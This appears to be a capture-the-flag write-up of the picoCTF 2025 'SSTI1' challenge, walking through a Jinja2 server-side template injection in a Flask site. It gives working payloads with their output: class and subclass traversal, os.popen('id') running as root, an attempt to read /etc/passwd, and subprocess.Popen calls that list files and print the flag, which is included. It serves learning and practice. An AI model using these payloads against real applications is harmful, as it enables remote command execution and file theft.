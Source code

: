 ###SSTI1###

From: https://play.picoctf.org/practice/challenge/492

Author: Venax

Description: I made a cool website where you can announce whatever you want! Try it out!

Tags: Easy, Web Exploitation, PicoCTF 2025, browser_webshell_solvable
---

Beginning of challenge:

Immediately after launching the challenge instance you are directed to a website with basic html and a prominent form to announce to the site.
![image](https://github.com/user-attachments/assets/d9dd00a3-09f9-4cb6-9dd2-df17e5687f33)

After entering a string to the form, the website directs you to an announce page with your input text displayed.
![image](https://github.com/user-attachments/assets/b52c3e2b-6229-4f52-bb75-4f2cce7b377e)

<details>
<summary> CONTINUE - SPOILERS </summary>
Directly changing your URL to this announce page doesn't yield results:
![image](https://github.com/user-attachments/assets/e3fa69cf-67f8-43e9-a89c-89bcbc10ebdc)

After some experimentation, I wasn't able to deduce whether this something SQL exploitable, and decided to take the hint from the PicoCTF instance. This revealed the exploit for this CTF is known as server-side-template injection.

The portswigger article: https://portswigger.net/web-security/server-side-template-injection describes this explot as __"when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side."__

After futher experimentation, and now understanding that string formatting is often performed using curly brackets {}, sending the server the a set of nested curly brackets {{}} resulted in an internal server error, error 500.
![image](https://github.com/user-attachments/assets/2b0066c4-0e89-49c9-b0a3-d1c87fede2b3)

When placing any plaintext within these braces, the error dissapears and completely blank HTML page is returned when the form is executed.

Based on the error returned, it might be possible that this application is a Flask application, see: https://www.digitalocean.com/community/tutorials/how-to-handle-errors-in-a-flask-application.

To confirm server side execution ability, we sent {{7*7}} which resulted in the page showing me the numbers 49. This implies that anything we place within the double curly braces can be evaluated. 

Following along with the portswigger article, and the indentify section, we determine that this is framework is likely using Jinja
![image](https://github.com/user-attachments/assets/1a2aee31-7607-4b5e-916c-16786617ba99)
"The payload {{7*'7'}} returns 49 in Twig and 7777777 in Jinja2."

Now that we know it is Jinja2, I found https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/ to be useful for specifics regarding exploitation of this framework. Similarly, the Jinja docs were useful for referencing what the OnSecurity aricle was discussing: https://jinja.palletsprojects.com/en/stable/api/#jinja2.Environment

Sending: {{global_name.__class__.__mro__}}
Returns: (<class 'jinja2.runtime.Undefined'>, <class 'object'>)

Sending: {{global_name.__class__.__base__}}
Returns: <class 'object'>

Sending: {{g.__class__.__mro__}}
Returns: (<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>)

Sending: {{g.__class__.mro()}}
Returns: [<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>]

Sending: {{g['__class__']['mro']()}}
Returns: [<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>]

Sending: {{g['__class__']['__mro__']}}
Returns: (<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>)

Furthermore from the OnSecurity article, I played around with some of the payloads discussed there...

Sending: {{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
Returns: uid=0(root) gid=0(root) groups=0(root) 

From the developing an exploiut in https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/#payload-development-from-0...
![image](https://github.com/user-attachments/assets/b23ae18f-6e68-48c6-8b1a-6632659c9392)

Sending: {{get_flashed_messages}}
Returns: <function get_flashed_messages at 0x75e143dc5550>

Sending: {{get_flashed_messages.__class__}}
Returns: <class 'function'>

Sending: {{get_flashed_messages.__class__.__mro__}}
Returns: (<class 'function'>, <class 'object'>)

Sending: {{get_flashed_messages.__class__.__mro__[1]}}
Returns: <class 'object'>

Sending: {{get_flashed_messages.__class__.__mro__[1].__subclasses__()}}
Returns: This returns all the subclasses for the get_flashed_messages object subclass. It is very long so I haven't included it
![image](https://github.com/user-attachments/assets/b9684b62-ef29-4c30-b91b-4f48e44aa67a)

Sending: {{g}}
Returns: <flask.g of 'app'>

Sending: {{get_flashed_messages.__class__.__mro__[1].__subclasses__()[40]}}
Returns: <class 'mappingproxy'>

Sending: {{get_flashed_messages.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd')}}
Returns: /etc/passwd

Sending: {{get_flashed_messages.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd').read()}}
Returns: __Internal server error__


After a bit of further self experimentation, I took the 'app' name of the application and started parsing some similar dunder methods to it to see what was getting returned, maybe we can find our winfunction this way.

Sending: {{app.__class__}}
Returns: <class 'jinja2.runtime.Undefined'>

Sending: {{app.__class__.__mro__}}
Returns: (<class 'jinja2.runtime.Undefined'>, <class 'object'>)

When sending: {{app.__class__.__mro__[1].__subclasses__()}}, I received all the subclasses again, This time I put this into my IDE and replaced all commas with newlines to better visualise this set.
![image](https://github.com/user-attachments/assets/d53d70c7-0f86-4da5-a79a-df0aafcc8655)

I decided to hone in on <class 'subprocess.Popen'> and returned this by indexing the above function with [356]. 
>> {{app.__class__.__mro__[1].__subclasses__()[356]}}

Popen is expliotable because __"The popen() function shall execute the command specified by the string command. It shall create a pipe between the calling program and the executed command, and shall return a pointer to a stream that can be used to either read from or write to the pipe."__
from: https://pubs.opengroup.org/onlinepubs/009696799/functions/popen.html
![image](https://github.com/user-attachments/assets/d06d5171-459f-4511-9f12-c1688e3d9264)

We can now execute Popen by specifying the above string which I will shorten to PAY1
{{app.__class__.__mro__[1].__subclasses__()[356]}} = PAY1

PAY1(<args>, stdout=-1).communicate()[0].decode()

if we want to list the current directory, we can pass the linux commands ls to the args via a list:

Sending: {{app.__class__.__mro__[1].__subclasses__()[356](['ls', '-la], stdout=-1).communicate()[0].decode()}}
Returns:
total 12
drwxr-xr-x 1 root root    25 Apr 13 03:37 .
drwxr-xr-x 1 root root    23 Apr 13 03:37 ..
drwxr-xr-x 2 root root    32 Apr 13 03:37 __pycache__
-rwxr-xr-x 1 root root  1241 Mar  6 03:27 app.py
-rw-r--r-- 1 root root    58 Mar  6 19:43 flag
-rwxr-xr-x 1 root root   268 Mar  6 03:27 requirements.txt

Seems like we found a flag file, lets check out what the requirements.txt are first.
Seems like the decode() function was throwing an error, removing this and converting this separately in python allowed us to see the following:

ÿþblinker==1.8.2
click==8.1.7
colorama==0.4.6
Flask==3.0.3
itsdangerous==2.2.0
Jinja2==3.1.4
MarkupSafe==2.1.5
Werkzeug==3.0.3

Seems like just details for the application to run, maybe a docker thing?

Anyways, lets cat the flag with:
{{app.__class__.__mro__[1].__subclasses__()[356](['cat', 'flag'], stdout=-1).communicate()[0].decode()}}

picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_99fe4411}

Whoopee!

Applications used during CTF:
-Kali Linux (OS)
-Mozilla Firefox (Web Browser)
-Visual Studio Code

Core sources of information:
Portswigger: https://portswigger.net/web-security/server-side-template-injection#constructing-a-server-side-template-injection-attack
  - Overview of Server Side Template Injection

DigitalOcean: https://www.digitalocean.com/community/tutorials/how-to-handle-errors-in-a-flask-application
  - Understanding some error handling characteristics of Flask applications

Jinja: https://jinja.palletsprojects.com/en/stable/templates/
  - Understanding templating documentation and implementation

PythonDocs: https://docs.python.org/3/library/subprocess.html#subprocess.Popen
  - Understanding Popen

ChatGPT: https://chatgpt.com/
  - Getting an overview of common vulnerable subclasses and understanding the syntax of parsing lists to the Popen function.

</details>


